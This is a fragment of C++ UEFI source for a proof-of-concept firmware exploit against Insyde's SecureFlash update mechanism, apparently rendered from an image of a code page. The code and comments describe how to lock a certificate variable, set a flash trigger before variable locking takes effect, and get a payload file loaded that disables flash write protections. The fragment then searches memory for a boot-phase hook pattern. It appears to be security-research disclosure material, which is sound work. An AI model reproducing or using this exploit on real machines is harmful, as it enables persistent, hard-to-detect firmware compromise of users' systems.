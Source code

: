 ```cpp
  CertData->AuthInfo.Hdr.wCertificateType = WIN_CERT_TYPE_EFI_GUID;
  gBS->CopyMem(&CertData->AuthInfo.CertType, &gInsydeSpecialVariableGuid, sizeof(EFI_GUID));
  
  Status = gRT->SetVariable(
                  L"SecureFlashCertData",
                  &gSecureFlashVariableGuid,
                  Attributes,
                  VariableSize,
                  VariableBuffer
                  );
  return Status;
}

EFI_STATUS
EFIAPI
SecureFlashPoCEntry (
    IN EFI_HANDLE        ImageHandle,
    IN EFI_SYSTEM_TABLE *SystemTable
    )
{
    EFI_STATUS Status;
    SECURE_FLASH_INFO SecureFlashInfo;
    UINT32 Attributes;
    UINTN Size = 0;
        
    //
    // This driver needs to do the following:
    // 1. Add AW attribute to SecureFlashCertData variable that is already set as NV+BS+RT
    //    This will ensure that SecureFlashDxe driver will fail to remove it
    // 2. Set SecureFlashTrigger=1 in SecureFlashInfo variable, 
    //    that should have been write-protected by EfiVariableLockProtocol, but isn't,
    //    because we are running from Driver0000 before ReadyToBoot event is signaled.
    //    This will ensure that SecureFlashPei and other relevant drivers will not enable
    //    flash write protections, and SecureFlashDxe will register a handler
    //    that will ultimately LoadImage/StartImage our payload stored in EFI/Insyde/isflash.bin
    //
    // All further cleanup can be done after getting control from SecureFlashDxe.
    //
    // All variables used for exploitation will be cleaned 
    //    by the virtue of not having them in the modified BIOS region
    //
        
    // Locate BDS arch protocol
    EFI_BDS_ARCH_PROTOCOL *Bds = NULL;
    Status = gBS->LocateProtocol(&gEfiBdsArchProtocolGuid, NULL, (VOID**) &Bds);
    if (EFI_ERROR(Status)) {
      gRT->SetVariable(L"SecureFlashPoCError1", &gSecureFlashVariableGuid, 7, sizeof(Status), &Status);
      return Status;
    }
    
    // The function pointer we have at Bds->BdsEntry points to the very top of the hook chain, we need to search it
    // for the following:
    // 48 8B 05 XX XX XX XX ; mov rax, cs:GlobalVariableArea
    // C6 80 CD 00 00 00 01 ; mov byte ptr [rax + 0CDh], 1 ; Locked = TRUE;
    // 48 FF 25 YY YY YY YY ; jmp cs:OriginalBdsEntry
    
    // Read bytes from memory at Bds->Entry until we encounter 48 FF 25 pattern
    UINT8* Ptr = (UINT8*)Bds->Entry;
    while (Ptr[Size] != 0x48 || Ptr[Size+1] != 0xFF || Ptr[Size+2] != 0x25) {
      Size++;
      if (Size == 0x100) break; // Put a limit to memory read in case it all fails
```